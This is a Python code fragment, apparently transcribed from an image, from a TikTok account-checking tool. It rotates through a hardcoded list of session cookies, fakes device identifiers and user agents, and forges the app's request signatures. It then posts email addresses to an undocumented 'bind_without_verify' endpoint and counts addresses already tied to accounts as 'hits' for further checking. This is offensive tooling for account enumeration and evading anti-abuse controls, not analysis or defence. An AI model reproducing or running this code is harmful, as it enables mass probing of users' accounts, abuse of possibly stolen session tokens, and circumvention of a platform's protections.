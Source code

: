     
        cookies ={
            "passport_csrf_token": self.secret,
            "passport_csrf_token_default": self.secret,
            "sessionid":random.choice([
                'a16fa6c5be204caeef3e2db9abf7e54a',
'4c555f3897daeeaec5d33075aac6e7a5',
'9ef5dd91a967ac5eb3deaa8e78adf7d4',
'd08e27df2c75af9276fc4b0f60d72d19',
'df395f8ac47b3db8e9a8f899ac5937d3',
'46a8ef281a146aa734c5527148003fe5',
'7001dc2643f83cf6e72def00fbccfc6f',
'5081bf0f8e54a1dd28629a50ae0b0e01',
'3100e89c7b0d70e8a0f41233b28a769c',
'8d7571beb5a4285e6bccfa4cc6a4d502',
'd670e72823c751079017ca9a3b21020c',
'fd61effb1d65a1b01c820361d8228c7c',
'b6acb99c05b13b9ff866c26ee64a8fa8',
'4f761f08a724692c9ecb5e7fc54cbea3',
'2747f4c3d1f3b922f7b86dcd546af8d7',
'cd4489ef3fe23ddc68ad4454c9cabc41',
'5a0d6b2ca82d8824852148c22e146910',
'2ad32b398e15e80e443f922ab4928447',
'5a4a4c8c746d55a3cae7f32a127513aa',
'f4ea0fc94454b6a47fafb09a00aeb0e8',
'6bf28abdc354288b73bf99008f6a361f',
'df7246019b382003c7d438e2eec3f812',
'f4fd0301c875e5a5da06c14fd136934c',
'20f03a3785cbab1d1f242c50a8b2ef21',
'93bf67de66b6ddff3a75c3aec78e7276',
'0428ad14102a079e02df973ef9c3ca34',
'a7a6042fd8bb7aa59496346d9646e46f',
'525d663adcec79b1601cdfa2125627dc',
'8100a904b508f86fa19c3b3a2146a979',
'd972be2b916d7cb7a3e2c534dac73439',
'30c2b94bf3ddd98952a6f28137250375',
'fd4cd15633d1ebceccc492d509a9522b',
'648c1df7cef3ed3bd814c932939ce846',
'0f2d6256d2252a5cecd575b76009e8c2',
'bb4cef9ef619cb46f0a45c308c0d1e25',
'278b94bbb57a92ff23d92c5c52e1d57e',
'59317ae149b292fa766df9b805d4012e',
'40035d852d85c40b180d5154dce74e32',
'572670e81c97c6b16e081ee0243883b5',
'8a53b9f0b2ad46141f3ef206170ea95f',
'e54ae478d3928c1980661d3dcc81127e',
'cec657d01305d24d62ead1ebca1ea0de',
'1aa7da779bfb34e9adcda9d330242347',
'0727771a119768c35ddad138ae669ccb',
'b394eaa0f2376832f1e65701406872b4',
'1fc1c3d992d806afbb88fb05b3f8b51b',
'56e02966f4761a361a575db0a32ba2f7',
'978573dbd8fb062130305da932016754',
'466efa18c526a080549b97f03305a3a9',
'1f7b16535d0c8f91d1b0f0d4291726c7',
'c5a5d59db6c74831c598bbacee8ad25a',
'2b052a3a01222be0da70fd2849f6f849',
'18c9b9a235c938b34c1f8c5af3c65eb3',
'847ce0bac8342d7e63798419c0958268',
'08d0463c3ea0a3c7ef8f6a8e2e341528',
'138b138be22630bb46a0dd4d747dc037',
'6f8fd20e4cfb6af8d68e38284f732269',
'266d4adf7a9741e20386d77215fe1e1c',
'f76100b0c36e12ceec7dfedebb50f967',

            ])
            }
        self.ses.cookies.update(cookies)
        device_brands = ["samsung", "huawei", "xiaomi", "apple", "oneplus"]
        device_types = ["SM-S928B", "P40", "Mi 11", "iPhone12,1", "OnePlus9"]
        regions = ["AE", "IQ", "US", "FR", "DE"]
        languages = ["en"]
        paramss = {
        'passport-sdk-version': "6030790",
        'iid': str(random.randint(1, 10**19)),
        'device_id': str(random.randint(1, 10**19)),
        'ac': "WIFI",
        'channel': "googleplay",
        'aid': "1233",
        'app_name': "musical_ly",
        'version_code': "360505",
        'version_name': "36.5.5",
        'device_platform': "android",
        'os': "android",
        'ab_version': "36.5.5",
        'ssmix': "a",
        'device_type': random.choice(device_types),
        'device_brand': random.choice(device_brands),
        'language': random.choice(languages),
        'os_api': str(random.randint(28, 34)),
        'os_version': str(random.randint(10, 14)),
        'openudid': str(binascii.hexlify(urandom(8)).decode()),
        'manifest_version_code': "2023605050",
        'resolution': "1440*2969",
        'dpi': str(random.choice([420, 480, 532])),
        'update_version_code': "2023605050",
        '_rticket': str(round(random.uniform(1.2, 1.6) * 100000000) * -1) + "4632",
        'is_pad': "0",
        'app_type': "normal",
        'sys_region': random.choice(regions),
        'last_install_time': str(random.randint(1600000000, 1700000000)),
        'mcc_mnc': "41820",
        'timezone_name': "Asia/Baghdad",
        'carrier_region_v2': "418",
        'app_language': random.choice(languages),
        'carrier_region': random.choice(regions),
        'ac2': "wifi",
        'uoo': "0",
        'op_region': random.choice(regions),
        'timezone_offset': str(random.randint(0, 14400)),
        'build_number': "36.5.5",
        'host_abi': "arm64-v8a",
        'locale': random.choice(languages),
        'region': random.choice(regions),
        'ts': str(round(random.uniform(1.2, 1.6) * 100000000) * -1),
        'cdid': str(uuid.uuid4()),
        'support_webview': "1",
        'reg_store_region': random.choice(regions).lower(),
        'user_selected_region': "0",
        'cront_version': "1c651b66_2024-08-30",
        'ttnet_version': "4.2.195.8-tiktok",
        'use_store_region_cookie': "1",
        'ab_version':'37.8.5'
        }
        
        params = {'_rticket': str(round(random.uniform(1.2, 1.6) * 100000000) * -1) + "4632",    'cdid': str(uuid.uuid4()),'ts': str(round(random.uniform(1.2, 1.6) * 100000000) * -1),    'iid': str(random.randint(1, 10**19)),    'device_id': str(random.randint(1, 10**19)),    'openudid': str(binascii.hexlify(urandom(8)).decode())}
        _rticket = params["_rticket"]
        device_id = params["device_id"]
        iid = params["iid"]
        cdid = params["cdid"]
        openudid = params["openudid"]
        _rticket = params["_rticket"]
        ts = params["ts"]
        params={'_rticket':_rticket,'ab_version':'37.8.5','ac':'WIFI','ac2':'wifi','aid':'1233','app_language':'ar','app_name':'musical_ly','app_type':'normal','build_number':'37.8.5','carrier_region':'US','carrier_region_v2':'460','cdid':cdid,'channel':'googleplay','cronet_version':'75b93580_2024-11-28','device_brand':'rockchip','device_id':device_id,'device_platform':'android','device_type':'rk3588s_q','dpi':'320','fixed_mix_mode':'1','host_abi':'arm64-v8a','iid':iid,'is_pad':'0','language':'ar','last_install_time':'1745162892','locale':'ar','manifest_version_code':'2023708050','mix_mode':'1','op_region':'US','openudid':openudid,'os':'android','os_api':'29','os_version':'10','region':'IQ','request_tag_from':'h5','resolution':'720%2A1280','rrb':'%7B%7D','scene':'4','ssmix':'a','support_webview':'1','sys_region':'IQ','timezone_name':'Europe%2FAmsterdam','timezone_offset':'3600','ts':'1745163105','ttnet_version':'4.2.210.6-tiktok','uoo':'0','update_version_code':'2023708050','use_store_region_cookie':'1','version_code':'370805','version_name':'37.8.5','app_version':'32.9.5'}
        device_type = params["device_type"]
        app_name = "com.zhiliaoapp.musically"
        app_version = f"{random.randint(2000000000, 3000000000)}"
        platform = "Linux"
        os = f"Android {random.randint(10, 15)}"
        locales = ["ar_AE", "en_US", "fr_FR", "es_ES"]
        locale = random.choice(locales)
        device_types = ["phone", "tablet", "tv"]
        device_type = random.choice(device_types)
        build = f"UP1A.{random.randint(200000000, 300000000)}"
        cronet_version = f"{random.randint(10000000, 20000000)}"
        cronet_date = f"{random.randint(2023, 2025)}-{random.randint(1, 12):02}-{random.randint(1, 28):02}"
        quic_version = f"{random.randint(10000000, 20000000)}"
        quic_date = f"{random.randint(2023, 2025)}-{random.randint(1, 12):02}-{random.randint(1, 28):02}"
        user_agent = (f"{app_name}/{app_version} ({platform}; U; {os}; {locale}; {device_type}; "
                    f"Build/{build}; Cronet/{cronet_version} {cronet_date}; "
                    f"QuicVersion:{quic_version} {quic_date})")

        m=self. signn(urlencode(params), '', "AadCFwpTyztA5j9L" + ''.join(secrets.choice(string.ascii_letters + string.digits) for _ in range(9)), None, 1233)
        headers = {
        'User-Agent': user_agent,
        'x-tt-passport-csrf-token': self. secret,
        'content-type': "application/x-www-form-urlencoded; charset=UTF-8",
        'x-argus': m["x-argus"],
        'x-gorgon': m["x-gorgon"],
        'x-khronos': m["x-khronos"],
        'x-ladon': m["x-ladon"]
        }
        try:
            url="https://api16-normal-c-alisg.tiktokv.com/passport/email/bind_without_verify/?passport-sdk-version=0&app_language=en&"
            #url='https://api31-normal-useast1a.tiktokv.com/passport/email/bind'
            res = requests. post(url, params=params, headers=headers,data={"email":email},cookies=cookies).text
            #  print (res)

            if 'Email is linked to another account. Unlink or try another email.'in res:
                if "@gmail.com"in email:
                    self. check_email(email)          
                    self.gt+=1
                    sys.stdout.write(f"\r[Dev: Ethan] Hits : {M}{self.ge} | False: {M}{self.bt} | No: {M}{self.be}")
                    sys.stdout.flush()      

            else:
                if "@gmail.com"in email:          
                    self.bt+=1
                    sys.stdout.write(f"\r[Dev: Ethan] Hits : {M}{self.ge} | False: {M}{self.bt} | No: {M}{self.be}")
                    sys.stdout.flush()         
        except:
            pass

